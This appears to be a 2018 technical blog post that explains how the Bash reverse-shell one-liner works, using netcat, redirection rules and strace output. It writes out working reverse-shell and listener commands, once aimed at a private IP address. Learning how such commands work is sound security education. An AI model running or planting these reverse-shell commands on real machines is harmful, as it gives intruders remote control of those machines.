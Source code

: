 +++
title = "One Line Reverse Shell in Bash"
slug = "reverse-shell-in-bash"
date = 2018-01-10T06:41:19Z
desc = "Figuring out how a Bash one-liner works as a reverse shell."
tags = ["security", "today-i-learned"]
+++

Yesterday I saw a message from [Bryan Brake] on one of the [BrakeSec Slack] channels:

> This is a pretty bit of bash scripting *bash -i >& /dev/tcp/192.168.8.198&#x002f;4444 0>&1*

I knew that it’s a reverse shell&#8239;---&thinsp;a tool that connects the target computer back to you (hence the ‘reverse’) and then allows you to execute commands on that machine (‘shell’). But how does it work?

*Skip to the [Summary] if you just want the answer.*

## Setup

Bryan then mentioned that this command is supposed to be used with a [netcat], which is `nc` or `ncat` depending on your version, listening on port `4444` of the computer with <abbr>IP</abbr> `192.168.8.198`:
```
$ nc -v -n -l -p 4444
# -v — be verbose
# -n — do not try to inverse lookup IPs that connect to us
# -l — listen
# -p 4444 — port to listen on
```

I didn’t want to run my shell over the open Internet, so I replaced `192.168.8.198` with the loopback <abbr>IP</abbr> `127.0.0.1`:
```
# (1) run in the first terminal
$ nc -vnlp 4444

# (2) and then in the second
$ bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

And it works! Now, let’s figure it out one peace at the time, starting from `bash -i`.

## Interactive Bash

According to the [Bash] man page (`man bash`), option `-i` means that we’re starting an _“interactive shell.”_ The _Invocation_ section then explains that non-interactive shell will not execute its startup files: all those `/etc/profile`, `~/.profile`, `~/.bashrc`, etc. It also says that Bash automatically starts in this interactive mode when there are no non-option arguments (unless you pass a command to execute with a `-c`) and when its standard input and error streams are both connected to terminals.

{{<lead>}}So why would we want an interactive shell?{{</lead>}} I think, just because it will be more like shells that we’re used to&#8239;---&thinsp;with default aliases, correctly set `PATH`, and a [prompt].

{{<lead>}}Ok, and why isn’t it interactive in our case?{{</lead>}} Those angle brackets in our command redirect standard streams; this probably make Bash think that it isn’t running in the terminal. Let’s look into it.

## Network Redirection

Redirection is a feature available in most of the shells that allow you to change where command’s output goes, and input comes from. For example, this will write the directory listing to the `dir.list` file:
```
$ ls -l > dir.list
```

A quick search through the good old man page reveals that `>& target` is just an alternative form of `&> target`, which in turn means `1> target 2>&1`&#8239;---&thinsp;redirect both standard output and standard error streams to the `target`.

At this point, I made a mistake thinking that `>& /dev/tcp/127.0.0.1/4444` is merely a redirect of stdout and stderr to some special file `/dev/tcp/127.0.0.1/4444` that automatically opens a <abbr>TCP</abbr> connection. Everything is a file on Linux after all, right? This can even be “confirmed” by redirecting the output of a simple `echo`:
```
# (1) don’t forget to start listening,
# since nc will quit every time you disconnect;
# I’ll omit it in the following listings
$ nc -nvlp 4444

# (2) it works!
$ echo hello, world > /dev/tcp/127.0.0.1/4444
```

But then I’ve tried to do the same thing from [<abbr>ZSH</abbr>][ZSH]:
```
$ echo hello, world > /dev/tcp/127.0.0.1/4444
zsh: no such file or directory: /dev/tcp/127.0.0.1/4444
```
{{<lead>}}Why doesn't it work in <abbr>ZSH</abbr>?{{</lead>}} It turns out, it could be a special file, but I think this isn’t supported on my Debian, so Bash just emulates them, while <abbr>ZSH</abbr> does not. What’s interesting to note, it works without any special rights!

Now for the most confusing part.

## Sending your stdin to stdout

That’s exactly how `0>&1` reads to me. What does it even mean?!

At first, I thought this is needed so that the server, i.e. netcat side, would see its input back. I’ve tested my idea by removing it from the command. That broke the ‘shell’ part: now I could still see commands and their output on the server side, but couldn’t execute anything! You should play with it; it’s kind of a weird setup:
```
$ bash -i >& /dev/tcp/127.0.0.1/4444
```

At this point, I remembered about this tool `strace`, which allows you to see the kernel functions called by the program. Inspired by the example of [Julia Evans], I wasn’t afraid to try it. 😄

### Investigating with strace

I didn’t know what system call I wanted to find, so I just ran it without any filters and saved the full output to `strace.out` file:
```
$ strace -f bash -c 'bash -i /dev/tcp/127.0.0.1/4444 0>&1' > strace.out
# -f — makes strace follow the child processes created
# I wrapped my command in 'bash -c' so that redirections
# do not affect strace itself
```

Then I used `grep` to find the line with a string ‘127.0.0.1’ in it:
```
$ grep --line-number '127.0.0.1' strace.out
1:execve("/bin/bash", ["bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/44"...], 0x7fff7df714d8 /* 57 vars */) = 0
200:[pid  5106] connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
```

First hit isn’t interesting, it’s just `strace` executing our command. But the second one looks promising. Here it is with a couple more lines around:
```
199: [pid  5106] socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
200: [pid  5106] connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
201: [pid  5106] dup2(3, 1)                  = 1
202: [pid  5106] close(3)                    = 0
203: [pid  5106] dup2(1, 2)                  = 2
204: [pid  5106] dup2(1, 0)                  = 0
205: [pid  5106] fcntl(1, F_GETFD)           = 0
206: [pid  5106] execve("/bin/bash", ["bash", "-i"], 0x2485008 /* 57 vars */) = 0
```

* According to `man socket`, call to `socket()` returns a file descriptor (_fd_), in our case, it’s `3`. Then `connect()`, unsurprisingly, connects a socket identified by the fd to the given address. Ok, so after the first two lines we have an open socket to our server.
* Again, consulting with `man` reveals that `dup2(3, 1)` on line 3 will close fd `1`, which is our stdout, and create a copy of the socket (fd `3`) on it. _“After  a  successful return, the old and new file descriptors may be used interchangeably.”_ Now we close `3` since we don’t need the original anymore. Great! The `1> /dev/tcp/...` part is done in four syscalls.
* On line 203 `dup(1, 2)` does the same thing to our stderr: closes original and makes a copy of a socket to fd `2`. We’re now done with the `>& /dev/tcp/…`.

Only after meditating on line 204 for a while, it clicked for me: I was completely wrong about redirections! Using them is *not* like connecting tubes, even if it typically looks that way. Both `>` and `<` are *value assignments!*

When you do `ls -l > dir.list` you are not somehow “sending” the output from `ls` to the file. You’re _assigning_ the file `dir.list` to the standard output of `ls`.

This also explains why you can put redirections wherever you like around the command:
```
# these are the same
$ some_cmd -v > file
$ > file some_cmd -v
$ some_cmd > file -v
```
But the order of redirections relative to each other matters:
```
# stderr := stdout
# stdout := file
$ some_cmd 2>&1 1>file

# stdout := file
# stderr := stdout (== file)
$ some_cmd 1>file 2>&1
```

When we execute `0>&1`, we’re assigning to stdin the stdout’s fd, which is at that point is a socket. It doesn’t change almost anything if we do it the other way around: `0<&1`&#8239;---&thinsp;it’s still `stdin := stdout`. The only difference is that `>` checks if a target is available for writing and `<` tests for reading. Our socket is bidirectional, so it passes both.

## Summary

When you execute `$ bash -i >& /dev/tcp/192.168.8.198/4444 0>&1`

* first, Bash will (somehow?) check if special files `/dev/tcp/<host>/<port>` are supported by your <abbr>OS</abbr> and if they aren’t, it will emulate them by opening a <abbr>TCP</abbr> connection to `192.168.8.198:4444` for you
* it will also _reassign_ all three standard streams&#8239;---&thinsp;stdin, stdout, and stderr&#8239;---&thinsp;to the socket with this new connection, so all the output will go into, and input will be read from this socket
* then it will start a new interactive Bash session

## Links/Resources

* man page for Bash; thanks, Brian Fox and Chet Ramey!
* [“Redirection” page][redirection] on [Bash Hackers Wiki][bash-hackers]
* man pages for the syscalls, written as part of the [Linux man-pages project][man-pages]
* Julia’s excellent [talk][julia-talk], [blog posts][julia-blog] and [zines][julia-zine] on `strace`
* to join [BrakeSec Slack], as one should, send a quick DM to [@BrakeSec]

[Bryan Brake]: https://twitter.com/bryanbrake
[Julia Evans]: https://jvns.ca/
[BrakeSec slack]: https://brakesec.slack.com
[summary]: #summary
[netcat]: http://nc110.sourceforge.net/
[Bash]: https://en.wikipedia.org/wiki/Bash_(Unix_shell)
[ZSH]: https://en.wikipedia.org/wiki/Z_shell
[prompt]: https://en.wikipedia.org/wiki/Command-line_interface#Command_prompt
[man-pages]: https://www.kernel.org/doc/man-pages/
[redirection]: http://wiki.bash-hackers.org/syntax/redirection
[bash-hackers]: http://wiki.bash-hackers.org/start
[julia-talk]: https://www.youtube.com/watch?v=HfD9IMZ9rKY
[julia-blog]: https://jvns.ca/categories/strace/
[julia-zine]: https://jvns.ca/zines/#strace-zine
[@BrakeSec]: https://twitter.com/BrakeSec
